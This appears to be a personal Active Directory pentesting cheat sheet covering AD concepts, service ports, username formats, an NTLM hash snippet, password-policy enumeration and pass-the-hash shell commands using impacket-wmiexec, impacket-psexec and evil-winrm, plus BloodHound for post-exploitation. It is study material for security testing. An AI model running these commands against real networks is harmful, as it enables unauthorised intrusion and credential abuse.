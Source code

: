 # Info
AD Fundementals: 
https://www.pcwdld.com/active-directory-guide

ADUC Fundementals: 
https://www.varonis.com/blog/active-directory-users-and-computers/
http://www.yourhowto.nl/?page_id=43
https://www.pcwdld.com/active-directory-guide






AD
	ADUC
		Objects
			User account
				Domain user account
				Local user account
			Computer account
			Groups
				Security Group
				Distribution Group
			Shares
			Printers
			Organizational Units (OU)
			Attributes
			Delegate Control

LDAP
	Kerberos vs NTLM?
	SASL
	SSL
	DNS
	DHCP
	not SAML and RADIUS

ObjectGUID
ObjectSID

UserPrincipalName (UPN)
SAMAccountName


Service account
sMSA
gMSA

## Common services used in AD
|Service|port|
|-|-|
|DNS|53|
|Kerberos|88|
|RPC|135| 
|NetBios|137-138-139|
|LDAP-tls|389-636|
|SMB|445|
|Global catalog LDAP-tls|3268-3269|

## Domain username convention
firstlast
flast
firlas
first.last
f.last
fir.las

## Calculate NTLM hash
```Python
import hashlib,binascii
hash = hashlib.new('md4', "password".encode('utf-16le')).digest()
print binascii.hexlify(hash)
```

## Password policy
`polenum '<USER>':'<PASS>' -d <IP/DOMAIN>`
`crackmapexec smb IP -u '<USER>' -p '<PASS>' --pass-pol`

## Expoitation
Check:
`crackmapexec SERVICE <IP> -u '<USER>' -p <PASS>` hash: -H

Shell:
`impacket-wmiexec -hashes '<HASH>' <USER>@<IP>`
`impacket-psexec -hashes '<HASH>' <USER>@<IP>`
`evil-winrm -i <IP> -u <USER> -p '<PASS>'` hash: -H
## Post-exploitation
`Bloodhound`
	`SharpHound` for local AD
	`AzureHound` for Azure AD